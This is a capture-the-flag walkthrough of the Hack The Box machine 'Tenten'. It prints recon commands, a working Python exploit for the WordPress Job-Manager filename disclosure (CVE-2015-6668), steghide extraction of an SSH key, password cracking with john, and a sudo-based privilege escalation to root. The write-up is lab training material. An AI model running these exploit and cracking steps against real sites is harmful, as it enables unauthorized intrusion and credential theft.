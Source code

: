 ![logo](/logo.png)

# [Tenten- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 22 Mar 2017 as the eight machine on HTB,Tenten created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *ssh
  *Apache 
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/tenten 10.10.10.10
```

###### Output 

![](/Linux/Linux-Medium/Tenten/Screenshots/nmap.png)

```sh
 nmap -sV -sC -oA nmap/tenten 10.10.10.10                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 08:45 EAT
Nmap scan report for 10.10.10.10
Host is up (0.33s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://tenten.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.84 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu Linux`and its running an `Apache httpd 2.4.18`.  With a host name of [http://tenten.htb](http://tenten.htb)

port[22]- ssh
port[80]-  http

so first thing firdt lets add the hostname to our `/etc/hosts`

![](/Linux/Linux-Medium/Tenten/Screenshots/etc.png)


When we navigate to [http://tenten.htb](http://tenten.htb) we find out that it a wordpress page 

![](Linux/Linux-Medium/Tenten/Screenshots/wordpress.png)

Now that its running a wordpress we just going to do an automated script for wordpress to check for vulnerabilities.

```sh
wpscan --url http://tenten.htb -e ap --plugins-detection aggressive
```

![](/Linux/Linux-Medium/Tenten/Screenshots/wpsacan.png)

looking at the now results we find that it has a readme which specifies that wordpress is version `4.7`

![](/Linux/Linux-Medium/Tenten/Screenshots/wordpressv.png)

now after doing some search i found out that their is a page in jobs where we can access other pages by just changing the `uid` of the page 

# Exploitation


![](/Linux/Linux-Medium/Tenten/Screenshots/Uid.png)
![](/Linux/Linux-Medium/Tenten/Screenshots/uid1.png)

now lets go back to the previous page and upload something so that we can be able to do a for loop to check for It 

![](/Linux/Linux-Medium/Tenten/Screenshots/Application.png)

now we generate a for loop to check for the application we submitted.

```sh
for i in $(seq 1 20); do echo -n "$i: "; curl -s http://tenten.htb/index.php/jobs/apply/$i/ | grep '<title>'; done
```

![](Linux/Linux-Medium/Tenten/Screenshots/forloop.png)

As we can see that is what we uploaded but when we try to look for it in the web browser we find that we are unable so we look for a script that abuses the Job manager [exploit](https://gist.github.com/DoMINAToR98/4ed677db5832e4b4db41c9fa48e7bdef) we modify for ranges and file types.

```sh
import requests

print("""  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
""")

website = input('Enter a vulnerable website: ')
filename = input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2017, 2019):
    for i in range(3, 13):
        for extension in {'jpeg', 'png', 'jpg'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code == 200:
                print("[+] URL of CV found! " + URL)
```

so by using the script above we get the url for `HackerAccessGranted`

![](/Linux/Linux-Medium/Tenten/Screenshots/url.png)

By browsing the page we get an Image 

![](Linux/Linux-Medium/Tenten/Screenshots/hackersgranted.png)

so we need to save the image because so that we can check it it store any information 

```sh
steghide extract -sf HackerAccessGranted.jpg
```

it looks like someone hide a rsa text to the image

![](/Linux/Linux-Medium/Tenten/Screenshots/rsa.png)

now we need to crack the `id_rsa` but first we make it crackable with `john`

```sh
ssh2john id_rsa
```

![](/Linux/Linux-Medium/Tenten/Screenshots/ssh2john.png)

now we copy this in to a new file and be able to crack it with john and default kali linux rockyou.txt wordlist.

```sh
john id_rsa_john_encrypted --wordlist=/usr/share/wordlists/rockyou.txt 
```

![](/Linux/Linux-Medium/Tenten/Screenshots/john.png)

now we use the password and the `id_rsa` to log in as root.

```sh
chmod 600 id_rsa
ssh -i id_rsa root@10.10.10.10
```

![](/Linux/Linux-Medium/Tenten/Screenshots/rootfail.png)

but it fails but we rember their was a user called `takis` from the blog post so lets log in as him

![](/Linux/Linux-Medium/Tenten/Screenshots/tarkis.png)

we can get the user flag from the user 

![](/Linux/Linux-Medium/Tenten/Screenshots/userflag.png)

#  Privillage Escalation

after trying `takis` password on root it resufes so what i do I just run  `sodo -l` which will show if their is something that i can run without root privillages.

```sh
sudo -l
```

![](/Linux/Linux-Medium/Tenten/Screenshots/privillage.png)

so let me check the file so that we se what it does 

![](/Linux/Linux-Medium/Tenten/Screenshots/binbash.png)

it just does a `bin/bash` and enable us to run comands so lets run it

![](/Linux/Linux-Medium/Tenten/Screenshots/root.png)

and just that way we are root.

![](Linux/Linux-Medium/Tenten/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------
